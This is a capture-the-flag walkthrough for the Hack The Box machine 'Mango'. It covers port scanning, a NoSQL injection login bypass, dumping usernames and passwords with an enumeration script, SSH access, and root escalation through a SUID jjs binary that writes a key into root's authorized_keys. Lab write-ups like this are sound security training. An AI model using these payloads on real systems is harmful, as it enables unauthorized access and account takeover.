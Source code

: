 # [Mango](https://app.hackthebox.com/machines/mango/)

```bash
nmap -p- --min-rate 10000  10.10.10.162 -Pn
```

![Alt text](img/image.png)

After knowing open ports (22,80,443), let's do greater nmap scan.

```bash
nmap -A -sC -sV -p22,80,443 10.10.10.162 -Pn 
```

![Alt text](img/image-1.png)


From nmap scan result, I see that 'staging-order.mango.htb' and 'mango.htb' belong to our target.

Let's add these hosts into '**/etc/hosts**' file.

![Alt text](img/image-3.png)

We have already mango.htb application is ready which look like 'Google'

![Alt text](img/image-2.png)

By browsing 'http://staging-order.mango.htb/', we see another application (Mango).

![Alt text](img/image-4.png)


Let's try to login machine and see full request.

![Alt text](img/image-5.png)


Let's try to bypass login form. For this, I just did **NoSQL Injection.**

```bash
username[$ne]=dr4ks&password[$ne]=dr4ks&login=login
```

![Alt text](img/image-6.png)


Now, I am already on 'Dashboard' means (home.php) page, it says it is under construction.

![Alt text](img/image-7.png)


As we know, there is NoSQL injection vulnerability, we can dump users and passwords from NoSQL database.

For this, I have a [script](https://github.com/an0nlk/Nosql-MongoDB-injection-username-password-enumeration/blob/master/nosqli-user-pass-enum.py) to enumerate users and passwords of them.


Let's use this script as below.

```bash
python2 nosqli-user-pass-enum.py -u http://staging-order.mango.htb/ -up username -pp password -ep username 
```

![Alt text](img/image-8.png)


I find two usernames being 'admin' and 'mango'.

![Alt text](img/image-9.png)


Now, it's time to enumerate passwords of NoSQL db.
```bash
python2 nosqli-user-pass-enum.py -u http://staging-order.mango.htb/ -up username -pp password -ep password
```


I find two different passwords being 'h3mXK8RhU~f{]f5H' and 't9KcS3>!0B#2'.

![Alt text](img/image-10.png)


Let's login into SSH via this credentials.

I tried below credentials.

mango: h3mXK8RhU~f{]f5H


![Alt text](img/image-11.png)


I cannot read 'user.txt' via '**mango**' user. I need to switch '**admin**' user.

admin: t9KcS3>!0B#2

![Alt text](img/image-12.png)


Let's make interactive shell.

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

user.txt

![Alt text](img/image-13.png)


I searched SUID files on target machine.
```bash
find / -user root -perm -4000 2>/dev/null -ls
```

![Alt text](img/image-14.png)


I see that **'/usr/lib/jvm/java-11-openjdk-amd64/bin/jjs'** has SUID binary , that's why we can do privilege escalation via this.

I find exploit from [Gtfobins](https://gtfobins.github.io/gtfobins/jjs/#file-write)

That I add my public key into machine and login via private key.

First, I just open JJS via '/usr/lib/jvm/java-11-openjdk-amd64/bin/jjs' on Terminal.

Then,  I wrote below payload.
```java
var FileWriter = Java.type("java.io.FileWriter");
var fw=new FileWriter("/root/.ssh/authorized_keys");
fw.write("DATA");
fw.close();
```

![Alt text](img/image-15.png)


I can login via my private key file.

```bash
ssh -i /root/.ssh/id_rsa root@10.10.10.162 
```

![Alt text](img/image-16.png)